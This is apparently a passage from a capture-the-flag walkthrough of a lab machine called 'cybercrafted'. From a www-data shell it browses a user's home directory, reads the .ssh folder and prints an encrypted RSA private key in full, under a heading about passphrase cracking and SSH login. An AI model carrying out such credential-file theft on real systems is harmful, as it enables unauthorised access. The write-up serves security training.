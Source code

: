```jsx
www-data@cybercrafted:/var/www/admin$ 
```

> **Passphrase Cracking & SSH Connection Phase**
> 

```jsx
www-data@cybercrafted:/var/www/admin$ cd /home/xxultimatecreeperxx
cd /home/xxultimatecreeperxx
www-data@cybercrafted:/home/xxultimatecreeperxx$ ls -lsa

total 32
4 drwxr-xr-x 5 xxultimatecreeperxx xxultimatecreeperxx 4096 Oct 15  2021 .
4 drwxr-xr-x 4 root                root                4096 Jun 27  2021 ..
0 lrwxrwxrwx 1 root                root                   9 Sep 12  2021 .bash_history -> /dev/null
4 -rw-r--r-- 1 xxultimatecreeperxx xxultimatecreeperxx  220 Jun 27  2021 .bash_logout
4 -rw-r--r-- 1 xxultimatecreeperxx xxultimatecreeperxx 3771 Jun 27  2021 .bashrc
4 drwx------ 2 xxultimatecreeperxx xxultimatecreeperxx 4096 Jun 27  2021 .cache
4 drwx------ 3 xxultimatecreeperxx xxultimatecreeperxx 4096 Jun 27  2021 .gnupg
0 -rw-rw-r-- 1 xxultimatecreeperxx xxultimatecreeperxx    0 Jun 27  2021 .hushlogin
4 -rw-r--r-- 1 xxultimatecreeperxx xxultimatecreeperxx  807 Jun 27  2021 .profile
4 drwxrwxr-x 2 xxultimatecreeperxx xxultimatecreeperxx 4096 Jun 27  2021 .ssh
0 lrwxrwxrwx 1 root                root                   9 Oct 15  2021 .viminfo -> /dev/null

www-data@cybercrafted:/home/xxultimatecreeperxx$ ls -lsa .ssh

total 16
4 drwxrwxr-x 2 xxultimatecreeperxx xxultimatecreeperxx 4096 Jun 27  2021 .
4 drwxr-xr-x 5 xxultimatecreeperxx xxultimatecreeperxx 4096 Oct 15  2021 ..
4 -rw-r--r-- 1 xxultimatecreeperxx xxultimatecreeperxx  414 Jun 27  2021 authorized_keys
4 -rw-r--r-- 1 xxultimatecreeperxx xxultimatecreeperxx 1766 Jun 27  2021 id_rsa

www-data@cybercrafted:/home/xxultimatecreeperxx$ cat .ssh/id_rsa

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,3579498908433674083EAAD00F2D89F6

Sc3FPbCv/4DIpQUOalsczNkVCR+hBdoiAEM8mtbF2RxgoiV7XF2PgEehwJUhhyDG
+Bb/uSiC1AsL+UO8WgDsbSsBwKLWijmYCmsp1fWp3xaGX2qVVbmI45ch8ef3QQ1U
SCc7TmWJgI/Bt6k9J60WNThmjKdYTuaLymOVJjiajho799BnAQWE89jOLwE3VA5m
SfcytNIJkHHQR67K2z2f0noCh2jVkM0sx8QS+hUBeNWT6lr3pEoBKPk5BkRgbpAu
lSkN+Ubrq2/+DA1e/LB9u9unwi+zUec1G5utqfmNPIHYyB2ZHWpX8Deyq5imWwH9
FkqfnN3JpXIW22TOMPYOOKAjan3XpilhOGhbZf5TUz0StZmQfozp5WOU/J5qBTtQ
sXG4ySXCWGEq5Mtj2wjdmOBIjbmVURWklbsN+R6UiYeBE5IViA9sQTPXcYnfDNPm
stB2ukMrnmINOu0U2rrHFqOwNKELmzSr7UmdxiHCWHNOSzH4jYl0zjWI7NZoTLNA
eE214PUmIhiCkNWgcymwhJ5pTq5tUg3OUeq6sSDbvU8hCE6jjq5+zYlqs+DkIW2v
VeaVnbA2hij69kGQi/ABtS9PrvRDj/oSIO4YMyZIhvnH+miCjNUNxVuH1k3LlD/6
LkvugR2wXG2RVdGNIwrhtkz8b5xaUvLY4An/rgJpn8gYDjIJj66uKQs5isdzHSlf
jOjh5qkRyKYFfPegK32iDfeD3F314L3KBaAlSktPKpQ+ooqUtTa+Mngh3CL8JpOO
Hi6qk24cpDUx68sSt7wIzdSwyYW4A/h0vxnZSsU6kFAqR28/6pjThHoQ0ijdKgpO
8wj/u29pyQypilQoWO52Kis4IzuMN6Od+R8L4RnCV3bBR4ppDAnW3ADP312FajR+
DQAHHtfpQJYH92ohpj3dF5mJTT+aL8MfAhSUF12Mnn9d9MEuGRKIwHWF4d1K69lr
0GpRSOxDrAafNnfZoykOPRjZsswK3YXwFu3xWQFl3mZ7N+6yDOSTpJgJuNfiJ0jh
MBMMh4+r7McEOhl4f4jd0PHPf3TdxaONzHtAoj69JYDIrxwJ28DtVuyk89pu2bY7
mpbcQFcsYHXv6Evh/evkSGsorcKHv1Uj3BCchL6V4mZmeJfnde6EkINNwRW8vDY+
gIYqA/r2QbKOdLyHD+xP4SpX7VVFliXXW9DDqdfLJ6glMNNNbM1mEzHBMywd1IKE
Zm+7ih+q4s0RBClsV0IQnzCrSij//4urAN5ZaEHf0k695fYAKMs41/bQ/Tv7kvNc
T93QJjphRwSKdyQIuuDsjCAoB7VuMI4hCrEauTavXU82lmo1cALeNSgvvhxxcd7r
1egiyyvHzUtOUP3RcOaxvHwYGQxGy1kq88oUaE7JrV2iSHBQTy6NkCV9j2RlsGZY
fYGHuf6juOc3Ub1iDV1B4Gk0964vclePoG+rdMXWK+HmdxfNHDiZyN4taQgBp656
RKTM49I7MsdD/uTK9CyHQGE9q2PekljkjdzCrwcW6xLhYILruayX1B4IWqr/p55k
v6+jjQHOy6a0Qm23OwrhKhO8kn1OdQMWqftf2D3hEuBKR/FXLIughjmyR1j9JFtJ
-----END RSA PRIVATE KEY-----
```